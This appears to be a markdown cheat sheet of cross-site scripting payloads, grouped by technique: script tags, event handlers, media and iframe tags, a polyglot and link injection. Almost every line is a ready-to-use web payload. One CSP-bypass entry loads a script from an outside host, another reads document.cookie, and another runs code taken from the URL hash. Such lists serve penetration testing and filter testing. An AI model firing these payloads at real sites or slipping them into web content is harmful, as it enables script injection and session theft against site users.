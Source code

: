 # Unique XSS Payloads and Techniques

### Script Injection
- `<script>alert(1)</script>`
- `<script src=javascript:alert(1)>
- "><svg onload=alert(1)>
- <img src=1 onerror=alert(1)>
- javascript:alert(1)

"onmouseover="alert(1)
javascript:alert(1)`

### Event Handlers
- `onmouseover=alert(1)`
- `<body/onfocus=alert(1)>`
- `<marquee onstart=alert(1)>`
- `<x onclick=alert(1)>click this!`
- `<x onmousedown=alert(1)>click this!`
- `<brute onclick=alert(1)>click this!`

### Image and Media Tags
- `"'><img src="javascript:alert(1)">`
- `<img/src=1 onerror=window.alert(1)>`
- `<audio src=1 onloadstart=alert(1)>`
- `<video onloadstart=alert(1)><source>`

### Dynamic Elements
- `<svg/onload=alert(1)>`
- `<iframe src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aalert(1)">`
- `<iframe src=javascript:alert(1)>`
- `<IFRAME SRC=# onmouseover="alert(1)"></IFRAME>`

### Forms and Links
- `<form><button formaction=javascript:alert(1)>click`
- `<IMG SRC="javascript:alert(1);">`
- `<acronym onmousedown="alert(1)">test</acronym>`

- `<img src="/" onerror='prompt(1)'>`
- `<svg/onload=eval(location.hash.substr(1))>#alert(1)`
- `<details/open/ontoggle=confirm('XSS')>`

## CSP Bypass
- `<script>f=document.createElement("iframe");f.id="pwn";f.src="/robots.txt";f.onload=()=>{x=document.createElement('script');x.src='//bo0om.ru/csp.js';pwn.contentWindow.document.body.appendChild(x)};document.body.appendChild(f);</script>`

## Polyglot Payloads
- `javascript:"/*'/*\`/*--></noscript></title></textarea></style></template></noembed></script><html " onmouseover=/*<svg*/onload=alert()//`

## Inline HTML Injection
- `" onclick=alert(1)//">click`
- `" autofocus onfocus=alert(1) "`

## JavaScript Injection
- `'?prompt\`1\`?'`
- `"})},alert(1));(function xss() {//`
- `"-alert(1)-"`

## Hyperlink Tag Injection
- `javascript://%250Aalert(document.location="https://google.com",document.location="https://www.facebook.com")`
- `/x:1/:///%01javascript:alert(document.cookie)/`
